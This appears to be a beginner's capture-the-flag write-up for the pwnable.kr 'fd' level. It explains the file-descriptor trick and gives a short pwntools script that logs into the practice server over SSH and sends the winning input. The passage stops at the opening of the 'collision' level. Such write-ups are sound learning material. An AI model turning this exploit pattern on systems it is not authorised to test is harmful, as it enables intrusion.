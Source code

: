 Program verify if command line arguments count more or equal two.

If not, program will puts a hint.

Continue, program convert argv[1] from ASCII to number, and use the number minus 0x1234.

The return value assign to int variable fd.

fd is the first argument of read function.

So, what's the file descriptor?

Let me google it.

![image-20220701142122107](assets/image-20220701142122107.png)

So, we need make atoi(argv[1]) = 0x1234.

Then we input `LETMEWIN` and Enter

passed.

EXP: 

```python
from pwn import *

pwn_ssh = ssh(host="pwnable.kr", port=2222, user="fd", password="guest")

sh = pwn_ssh.process(executable="./fd", argv=["./fd", str(int(0x1234))])
sh.send(b"LETMEWIN\n")

print(sh.recvall())
```

### collision

This game I take so many time to solve.

I konw I'm not understand pointer of C program language now!

int* can understand to a int[] in this game.

Understand it, this game is easy.

Let me connect it by ssh.
